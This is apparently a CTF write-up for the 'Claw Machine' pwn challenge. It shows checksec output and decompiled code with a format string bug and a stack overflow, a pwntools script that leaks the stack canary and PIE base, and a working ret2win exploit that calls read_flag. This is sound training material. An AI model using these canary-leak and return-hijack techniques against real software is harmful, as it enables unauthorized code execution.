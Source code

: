 
# Synopsis

Claw Machine is an Medium difficulty challenge that features bypassing canaries and dealing with PIE to call a function that reads the flag (ret2win).

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	
Full RELRO   Canary found      NX enabled   PIE enabled          No RPATH   RW-RUNPATH   90 Symbols	  No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅      | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Running `file`, we also notice the the binary is `64-bit` and `dynamically linked`.

```console
➜  claw_machine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0dcdc3f9bead6c2a31478a42c3a9e13e478a230f, not stripped
```

The interface of the program looks like this:

```console
➜  ./claw_machine
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█                          █
█                          █
█        __________        █
█        |flag.txt|        █
████████████████████████████

Press '1' to move left, '2' to move right, '9' to grab the prize!

>>
```
After attempting to grab the prize no matter how much you move you will break the box and be offered to rate the game:

```console
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█        |flag.txt|        █
████████████████████████████

[-] You broke the box and couldn't get the prize!

Would you like to rate our game? (y/n)

>> y

Enter your name: TESTNAME

Thank you for giving feedback TESTNAME

Leave your feedback here: FEEDTEST

Thank you for playing!
```
Upon agreeing to rate the game you can insert your name and your feedback.

### Disassembly ⛏️

Taking a look at the psuedocode generated by ida for the function that handles feedback (fb) we can first identify a string format vuln, perhaps allowing us to leak PIE or Canaries?

```C
unsigned __int64 fb()
{
  __int16 buf; // [rsp+Dh] [rbp-73h] BYREF
  char v2; // [rsp+Fh] [rbp-71h]
  char format[8]; // [rsp+10h] [rbp-70h] BYREF
  __int64 v4; // [rsp+18h] [rbp-68h]
  char v5; // [rsp+20h] [rbp-60h]
  __int64 v6[9]; // [rsp+30h] [rbp-50h] BYREF
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  buf = 0;
  v2 = 0;
  *(_QWORD *)format = 0LL;
  v4 = 0LL;
  v5 = 0;
  memset(v6, 0, 64);
  printf("Would you like to rate our game? (y/n)\n\n>> ");
  read(0, &buf, 2uLL);
  if ( (_BYTE)buf == 121 || (_BYTE)buf == 89 )
  {
    printf("\nEnter your name: ");
    read(0, format, 0x10uLL);
    printf("\nThank you for giving feedback ");
    printf(format);
    printf("\nLeave your feedback here: ");
    read(0, v6, 0x5EuLL);
  }
  puts("\nThank you for playing!\n");
  return __readfsqword(0x28u) ^ v7;
}
```
Lets attempt to overflow the buffer:

```console
Enter your name: no

Thank you for giving feedback no

Leave your feedback here: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thank you for playing!

*** stack smashing detected ***: <unknown> terminated
zsh: IOT instruction (core dumped)  ./claw_machine
```
Shit. Canaries :)

Also did some testing "Off camera" and found out that you have 72 bytes before hitting the canary :)

### Debugging 

Ok, time to go hunt for some canaries,
In linux canaries end in 00. This makes them pretty easy to spot. to figure out which values correspond to a canary i used a quick python script:
```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./claw_machine', checksec=False)

# Let's fuzz x values
for i in range(300):
    try:
        if True:
            # Create process (level used to reduce noise)
            p = process(level='error')
            p.recvuntil(b">> ")
            p.sendline(b'9')
            p.recvuntil(b">> ")
            p.sendline(b'y')
            p.recvuntil(b': ')
            p.sendline('%{}$p'.format(i).encode())
            p.recvline()
            result = p.recvline().decode()
            if result:
                print(str(i) + ': ' + str(result[result.index("k",20)+1:]).strip()) #i know this is made badly... Leave me alone.
    except EOFError:
        pass
#  Canaries will look like this:
#  0x5020c933db88ab00
#  0x459415b8e048d00
#  makes em really easy to see
```
after running this script a couple times i managed to not only find that a canary sits on the 21st value on the stack (%21$p) but also that we have the address of Main+53 at the 23rd value on the stack (%23$p)
the address of main+53 is on the stack due because its the return value :)

Since we know that the return value sits 2 spots after the canary on the stack we know that our payload should look something like this:

(72 bytes) + (canary) + (8 bytes) + (read_flag)

# Solution

```python
from pwn import *
elf = context.binary = ELF('./claw_machine', checksec=False)
#context.terminal = ["alacritty",'-e','zsh','-c']
#p = gdb.debug("./claw_machine",gdbscript='''
    #break fb
    #continue
    #''')
#p = process(level='error')
#p = remote("IP", "PORT")
p.recvuntil(b">> ")
p.sendline(b'9')
p.recvuntil(b">> ")
p.sendline(b'y')
p.recvuntil(b': ')
p.sendline('%21$p %23$p'.encode())
p.recvline()
x = p.recvline().decode()
canary = x[x.index("k",20)+2:]
elf.address = eval(canary.split(" ")[1].strip())-0x1552
p.recvline()
payload = flat(
    b'A'*72,
    eval(canary.split(" ")[0]),
    b"A"*8,
    elf.symbols.read_flag
)
p.send(payload)
p.recvline()
p.recvline()
p.recvline()
p.interactive()

```
